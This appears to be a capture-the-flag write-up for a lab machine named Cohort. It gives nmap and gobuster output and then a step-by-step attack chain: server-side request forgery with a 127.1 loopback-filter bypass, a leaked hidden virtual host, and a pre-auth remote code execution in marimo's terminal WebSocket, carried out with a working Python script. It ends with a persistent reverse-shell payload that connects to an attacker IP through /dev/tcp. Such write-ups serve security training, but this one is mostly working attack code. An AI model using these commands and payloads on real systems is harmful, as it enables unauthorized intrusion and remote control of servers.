

# Cohort

sudo nmap -sCV 10.129.244.174
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-08-17 11:16 EDT
Nmap scan report for 10.129.244.174
Host is up (0.015s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|*http-title: Did not follow redirect to [https://cohort.htb/](https://cohort.htb/)
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
| tls-alpn:
|   http/1.1
|   http/1.0
|*  http/0.9
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to [https://cohort.htb/](https://cohort.htb/)
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
| Not valid before: 2026-06-01T18:47:07
|_Not valid after:  2126-05-08T18:47:07
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u [https://cohort.htb](https://cohort.htb/) -k -t 50 --exclude-length 908

/assets               (Status: 301) [Size: 178] [--> [https://cohort.htb/assets/](https://cohort.htb/assets/)]
/status               (Status: 403) [Size: 162]
/api                  (Status: 301) [Size: 178] [--> [https://cohort.htb/api/](https://cohort.htb/api/)]




was able to get the site to reach out to my python sever and grab a csv file I created 


# cohort.htb — Attack Chain

## 1. Confirm SSRF on `/api/validate`

Listener on attack box:

```bash
nc -lvnp 8000
```

Then submit:

```bash
curl -sk '<https://cohort.htb/api/validate>' \
  -X POST -H 'Content-Type: application/json' \
  --data-raw '{"url":"<http://10.10.14.80:8000/hi.parquet","format":"parquet>"}'
```

**Why:** If the target makes an outbound request to our listener, the backend is fetching attacker-supplied URLs server-side — confirms SSRF. The response headers (`User-Agent: CohortInsights/1.0`) also identified the fetcher as a custom in-house client.

---

## 2. Enumerate real API routes

```bash
for p in validate sources login reconcile ...; do
  curl -sk -o /dev/null -w '%{http_code}  POST /api/'"$p"'\n' \
    -X POST -H 'Content-Type: application/json' --data-raw '{}' \
    "<https://cohort.htb/api/$p>"
done
```

**Why:** GET to any `/api/*` path returns a blanket `405` regardless of whether the route exists (not useful signal). POST to a nonexistent route returns `404`; POST to a real route doesn't. This distinguishes real endpoints from noise — only `/api/validate` and `/api/health` turned out to be real.

---

## 3. Bypass the loopback/internal-IP filter

```bash
curl -s -k -X POST <https://cohort.htb/api/validate> \
  -H "Content-Type: application/json" \
  -d '{"url":"<http://127.1:8888/","format":"csv>"}'
```

**Why:** The app explicitly blocks "internal and loopback addresses," but the blocklist only matched literal strings like `127.0.0.1`/`localhost`. `127.1` is a valid alternate notation for `127.0.0.1` that slipped past the filter — turning the SSRF into a way to reach genuinely internal-only services on the box. This request revealed an internal **marimo** notebook server on port 8888.

---

## 4. Leak internal reverse-proxy topology

```bash
curl -s -k -X POST <https://cohort.htb/api/validate> \
  -H "Content-Type: application/json" \
  -d '{"url":"<http://127.1/status","format":"csv>"}'
```

**Why:** Using the same filter bypass against nginx's internal status endpoint (port 80, not 8888) leaked the full upstream config as JSON — including a hidden vhost `nb-1be3782a8afd3ad5.cohort.htb` proxying to the marimo instance at `127.0.0.1:8888`, labeled "internal analyst workspace, not for external use." This showed the "protection" on that service was just an unguessable hostname, not real access control.

---

## 5. Confirm external reachability of the hidden vhost

```bash
curl -sk -D - --resolve nb-1be3782a8afd3ad5.cohort.htb:443:10.129.46.137 \
  '<https://nb-1be3782a8afd3ad5.cohort.htb/>'
```

**Why:** `--resolve` forces the hostname to resolve to the target IP without needing real DNS. This confirmed nginx routes by `Host`/SNI, and the "internal" vhost actually sits behind the same public `:443` listener as everything else — got a `303` redirect to `/auth/login`, matching marimo's normal behavior.

---

## 6. Map the vhost persistently

```bash
echo "10.129.46.137 nb-1be3782a8afd3ad5.cohort.htb" | sudo tee -a /etc/hosts
```

**Why:** Needed for tools (like Python's `websocket-client`) that don't support a `--resolve`-style override, so the hostname resolves correctly for the WebSocket handshake (SNI + Host header both need to match the vhost).

---

## 7. Exploit marimo's pre-auth RCE (CVE-2026-39987)

```python
import websocket, ssl, time

ws = websocket.WebSocket(sslopt={'cert_reqs': ssl.CERT_NONE})
ws.connect('wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws')
time.sleep(2)

try:
    while True:
        ws.settimeout(1)
        ws.recv()
except Exception:
    pass

ws.settimeout(5)
ws.send('id\n')
time.sleep(2)
print(ws.recv())
```

**Why:** marimo's `/terminal/ws` WebSocket endpoint skips the `validate_auth()` check that every other route enforces — any client that completes a WS handshake gets a raw PTY with zero authentication, even when a token is configured. This is what gave us actual code execution (`uid=1000(marimo)`).

---

## 8. Weaponize into a persistent reverse shell

```python
# saved as ~/revshell_trigger.py
payload = 'setsid nohup bash -c "bash -i >& /dev/tcp/10.10.14.80/4444 0>&1" >/dev/null 2>&1 < /dev/null & disown\n'
ws.send(payload)
```

Listener:

```bash
nc -lvnp 4444
```

**Why:** Sending a plain `bash -i >&/dev/tcp/...` through the WS PTY works, but the spawned shell is a child of that PTY session — closing the WebSocket sends it SIGHUP and kills it. Wrapping in `setsid nohup ... & disown` fully detaches the reverse shell from the parent session so it survives independently of the triggering WebSocket connection.

---

## Chain summary

```
/api/validate SSRF
  -> loopback filter bypass (127.1)
  -> internal nginx /status leak (hidden vhost discovered)
  -> hidden vhost reachable externally via Host/SNI routing
  -> marimo /terminal/ws pre-auth RCE (CVE-2026-39987)
  -> shell as uid=1000(marimo)
  -> detached reverse shell for persistence
```